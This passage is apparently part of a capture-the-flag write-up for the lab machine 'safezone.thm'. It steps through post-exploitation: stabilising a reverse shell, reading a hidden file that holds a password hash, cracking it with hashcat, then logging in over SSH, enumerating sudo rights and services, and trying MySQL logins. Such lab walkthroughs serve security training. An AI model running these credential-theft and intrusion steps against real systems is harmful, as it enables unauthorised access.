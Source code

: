 * We have a reverse shell now:

  ```sh
  # stabilize the reverse shell
  python3 -c 'import pty;pty.spawn("/bin/bash")'

  export TERM=xterm

  # Ctrl+Z
  stty raw -echo; fg
  # press Enter twice now

  ls -la
  # enumerate web directory

  # enumerate other directories too

  ls -la /home
  # we have two users - files and yash

  ls -la /home/files
  # we have an interesting file here

  file /home/files/'.something#fake_can@be^here'

  cat /home/files/'.something#fake_can@be^here'
  # this gives us a hash for 'files' user

  # hash identifier says it is a sha512crypt $6$ hash

  # in attacker machine
  vim sha512hash
  # paste the hash here

  hashcat -m 1800 -a 0 sha512hash /usr/share/wordlists/rockyou.txt
  # this cracks the hash
  # gives us the passphrase 'magic'
  ```

* We can try to SSH as the 'files' user using the above password:

  ```sh
  ssh files@safezone.thm
  # the SSH works

  sudo -l
  # this shows we can run '/usr/bin/id' as user 'yash'

  sudo -u yash id
  # shows id output as 'yash'
  # we do not have any exploit for 'id' on GTFOBins or Google

  # keep enumerating other directories

  # check internal services
  ss -ltnp
  # this shows ports 3306 and 8000

  # 3306 is for MySQL
  # we can try a few possible logins using no password and known passwords like 'admin44admin' and 'magic'
  mysql -u root -p

  mysql -u file -p

  ```